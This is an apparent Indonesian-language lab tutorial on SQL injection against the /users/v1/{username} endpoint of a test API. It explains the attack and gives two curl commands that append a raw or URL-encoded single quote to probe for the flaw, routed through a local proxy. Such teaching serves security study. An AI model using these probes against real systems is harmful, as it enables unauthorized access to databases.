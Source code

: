 # SQL Injection
Serangan SQL Injection adalah jenis serangan injeksi, di mana perintah SQL dimasukkan ke dalam input data untuk memengaruhi eksekusi perintah SQL yang telah ditentukan sebelumnya. Serangan SQL Injection yang berhasil dapat membaca data sensitif dari database, memodifikasi data database, atau menjalankan operasi administrasi pada database. Secara umum, cara aplikasi web membuat query SQL adalah dengan melibatkan sintaks SQL yang ditulis oleh programmer dicampur dengan data yang disediakan oleh pengguna. Celah keamanan ini berada di endpoint `/users/v1/{username}`

- Kita bisa menggunakan username apapun sebagai parameter kemudian menambahkan tanda petik tunggal dibagian akhir
```sh
curl "http://IP_Server:5000/users/v1/test'" --proxy http://127.0.0.1:8080 
```


- Selain tanda petik tunggal kita juga bisa menggunakan kode `%27` yang otomatis akan terdecode sebagai tanda petik tunggal
```sh
curl http://IP_Server:5000/users/v1/test%27 --proxy http://127.0.0.1:8080
```

